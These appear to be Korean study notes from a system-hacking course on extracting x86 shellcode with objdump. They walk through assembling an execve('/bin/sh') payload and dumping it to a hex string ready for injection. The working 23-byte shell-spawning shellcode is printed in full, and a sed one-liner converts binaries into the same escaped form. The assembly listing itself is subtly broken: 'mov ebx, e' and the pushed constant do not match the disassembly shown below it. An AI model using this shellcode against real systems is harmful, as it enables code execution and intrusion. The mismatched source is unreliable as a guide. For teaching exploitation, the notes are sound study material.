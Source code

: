 - 해당 코드를 디버깅하는 것은 위 `orw` 셸코드와 동일

### objdump를 이용한 shellcode 추출

- 작성한 shellcode를 byte code(opcode)의 형태로 추출하는 방법
- 주어진 shellcode.asm에 대해서 이를 바이트 코드로 바꾸는 과정
- 어셈블리 코드 -shellcode.asm
  
    ```nasm
    ; File name: shellcode.asm
    section .text
    global _start
    _start:
    xor    eax, eax
    push   eax
    push   0x68732f
    push   0x6e69622f
    mov    ebx, e
    xor    ecx, ecx
    xor    edx, edx
    mov    al, 0xb
    int    0x80
    ```
    
1. shellocode.o
   
    ```nasm
    $ sudo apt-get install nasm 
    $ nasm -f elf shellcode.asm
    $ objdump -d shellcode.o
    shellcode.o:     file format elf32-i386
    Disassembly of section .text:
    00000000 <_start>:
       0:	31 c0                	xor    %eax,%eax
       2:	50                   	push   %eax
       3:	68 2f 2f 73 68       	push   $0x68732f2f
       8:	68 2f 62 69 6e       	push   $0x6e69622f
       d:	89 e3                	mov    %esp,%ebx
       f:	31 c9                	xor    %ecx,%ecx
      11:	31 d2                	xor    %edx,%edx
      13:	b0 0b                	mov    $0xb,%al
      15:	cd 80                	int    $0x80
    $ 
    ```
    
2. shellcode.bin
   
    ```nasm
    $ objcopy --dump-section .text=shellcode.bin shellcode.o
    $ xxd shellcode.bin
    00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e331  1.Ph//shh/bin..1
    00000010: c931 d2b0 0bcd 80                        .1.....
    $
    ```
    
3. shellcode string
   
    ```nasm
    # execve /bin/sh shellcode: 
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
    ```
    
    ```c
    xxd -p shell_basic.bin | tr -d '\n' | sed 's/../\\x&/g'
    ```